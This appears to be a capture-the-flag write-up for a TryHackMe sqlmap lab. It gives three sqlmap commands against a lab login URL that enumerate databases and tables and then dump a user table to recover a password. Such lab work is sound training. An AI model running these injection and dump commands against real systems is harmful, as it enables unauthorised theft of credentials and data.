 # [SQLMap: The Basics](https://tryhackme.com/r/room/sqlmapthebasics)

## Task 4 Practical Exercise

```shell
export MACHINE_IP=x.x.x.x
```

**How many databases are available in this web application?**

```shell
sqlmap -u "http://$MACHINE_IP/ai/includes/user_login?email=test&password=test" --dbs --level=5
```

**What is the name of the table available in the "ai" database?**

```shell
sqlmap -u "http://$MACHINE_IP/ai/includes/user_login?email=test&password=test" -D ai --tables --level=5
```

**What is the password of the email test@chatai.com?**

```shell
sqlmap -u "http://$MACHINE_IP/ai/includes/user_login?email=test&password=test" -D ai -T user --dump
```
